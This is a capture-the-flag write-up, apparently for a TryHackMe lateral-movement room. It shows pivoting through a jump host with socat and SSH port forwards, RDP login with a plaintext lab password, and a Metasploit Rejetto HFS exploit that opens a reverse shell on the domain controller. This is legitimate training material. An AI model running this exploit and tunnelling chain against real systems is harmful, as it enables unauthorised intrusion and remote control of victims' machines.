


## Exercises

### Question 1 — What is the flag obtained from executing "flag.exe" on t1_thomas.moore's desktop on THMIIS?

Port 3389 on THMIIS isn't reachable from the attacker machine directly, but THMJMP2 can reach it, so `socat` on THMJMP2 relays it:

```shell
C:\tools\socat>socat TCP4-LISTEN:13389,fork TCP4:THMIIS.za.tryhackme.com:3389
```

**Breakdown:**

- `socat` runs the relay
- `TCP4-LISTEN:13389` listens for IPv4 TCP connections on port 13389, on THMJMP2 itself
- `,fork` spins off a new process for each connection received, so the listener keeps accepting further connections instead of closing after the first
- `TCP4:THMIIS.za.tryhackme.com:3389` is the destination each accepted connection gets forwarded to — THMIIS's real RDP port

From the attacker machine, connecting to that forwarded port landed on t1_thomas.moore's desktop on THMIIS:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ xfreerdp /v:THMJMP2.za.tryhackme.com:13389 /u:t1_thomas.moore /p:MyPazzw3rd2020
```

**Breakdown:**

- `/v:THMJMP2.za.tryhackme.com:13389` connects to THMJMP2 on the forwarded listener port, which `socat` relays through to THMIIS's real RDP port
- `/u:t1_thomas.moore` sets the username to authenticate with
- `/p:MyPazzw3rd2020` sets the password



Running `flag.exe` on that desktop gave the flag:



```shell
C:\Users\t1_thomas.moore\Desktop>flag.exe

—REDACTED—

C:\Users\t1_thomas.moore\Desktop>pause
Press any key to continue . . .
```

**Answer:** `—REDACTED—`

### Question 2 — What is the flag obtained using the Rejetto HFS exploit on THMDC?

THMDC's vulnerable Rejetto HFS install needed tunnelling through THMJMP2 to reach, deliver a payload to, and catch a shell from — so the plan was three port forwards riding on one SSH tunnel back to the attacker machine. That tunnel needed a dedicated account on the attacker side first:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo useradd tunneluser -m -d /home/tunneluser -s /bin/true
[sudo] password for —REDACTED—: 
```

**Breakdown:**

- `useradd tunneluser` creates a new user named `tunneluser`
- `-m` creates a home directory for the new user
- `-d /home/tunneluser` sets that home directory's path explicitly
- `-s /bin/true` sets the login shell to `/bin/true` — a program that exits immediately, so logging in as this user never gets an actual shell, only a tunnel

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo passwd tunneluser
New password: 
Retype new password: 
passwd: password updated successfully
```

Kali doesn't run an SSH server by default, so that needed starting before the tunnel could connect:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo systemctl start ssh
[sudo] password for —REDACTED—: 
```

With that running, the tunnel was opened from THMJMP2, carrying all three forwards at once:

```shell
za\iain.phillips@THMJMP2 C:\tools\socat>ssh tunneluser@—REDACTED— -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```

**Breakdown:**

- `tunneluser@—REDACTED—` connects as `tunneluser` to the attacker machine
- `-R 8888:thmdc.za.tryhackme.com:80` remote-forwards port 8888 on the attacker machine to THMDC's port 80, reaching Rejetto HFS through THMJMP2 as the pivot
- `-L *:6666:127.0.0.1:6666` local-forwards port 6666 on THMJMP2 to the attacker machine's own port 6666 — carries the exploit's web server
- `-L *:7878:127.0.0.1:7878` local-forwards port 7878 on THMJMP2 to the attacker machine's own port 7878 — carries the reverse-shell listener
- `-N` skips requesting a shell, since `tunneluser` has none to give

With the tunnel up, Metasploit got configured to match:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ msfconsole -q
[*] Starting persistent handler(s)...
msf > use rejetto_hfs_exec

Matching Modules
================

   #  Full Name                              Disclosure Date  Rank       Check  Name
   -  ---------                              ---------------  ----       -----  ----
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

[*] Using exploit/windows/http/rejetto_hfs_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp
payload => windows/shell_reverse_tcp
msf exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
lhost => thmjmp2.za.tryhackme.com
msf exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf exploit(windows/http/rejetto_hfs_exec) > set lport 7878
lport => 7878
msf exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
srvhost => 127.0.0.1
msf exploit(windows/http/rejetto_hfs_exec) > set srvport 6666
srvport => 6666
msf exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(windows/http/rejetto_hfs_exec) > set rport 8888
rport => 8888
msf exploit(windows/http/rejetto_hfs_exec) > exploit
[*] Started reverse TCP handler on 127.0.0.1:7878 
[*] Using URL: http://thmjmp2.za.tryhackme.com:6666/vZat9qb4
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /vZat9qb4
[!] Tried to delete %TEMP%\KQjXFjc.vbs, unknown result
[*] Command shell session 1 opened (127.0.0.1:7878 -> 127.0.0.1:40512) at 2026-11-14 17:41:36 +0200
[*] Server stopped.

Shell Banner:
Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\hfs>
```

**Breakdown:**

- `use rejetto_hfs_exec` loads the Rejetto HFS exploit module
- `set payload windows/shell_reverse_tcp` selects a reverse shell payload
- `set lhost thmjmp2.za.tryhackme.com` sets the address the payload is told to connect back to — THMJMP2, since THMDC can't reach the attacker machine directly
- `set ReverseListenerBindAddress 127.0.0.1` separately sets the actual address the reverse-shell listener binds to on the attacker machine, since `LHOST` alone can't serve both roles here
- `set lport 7878` sets the listener's port, matching the `-L *:7878:...` forward
- `set srvhost 127.0.0.1` binds the exploit's web server to localhost on the attacker machine
- `set srvport 6666` sets that web server's port, matching the `-L *:6666:...` forward
- `set rhosts 127.0.0.1` sets the exploit's target address — localhost, since the tunnel forwards it on to THMDC
- `set rport 8888` sets the port used to reach that target, matching the `-R 8888:...` forward
- `exploit` launches it

With the shell open, the flag was sitting right in the HFS directory:

```shell
C:\hfs>dir

 Volume in drive C is Windows
 Volume Serial Number is 1634-22A9

 Directory of C:\hfs

11/14/2026  03:26 PM    <DIR>          .
11/14/2026  03:26 PM    <DIR>          ..
11/14/2026  03:41 PM    <DIR>          %TEMP%
06/22/2022  02:23 AM                22 flag.txt
08/24/2014  08:18 PM         2,498,560 hfs.exe
               2 File(s)      2,498,582 bytes
               3 Dir(s)  50,103,033,856 bytes free

C:\hfs>type flag.txt

—REDACTED—
```

**Answer:** `—REDACTED—`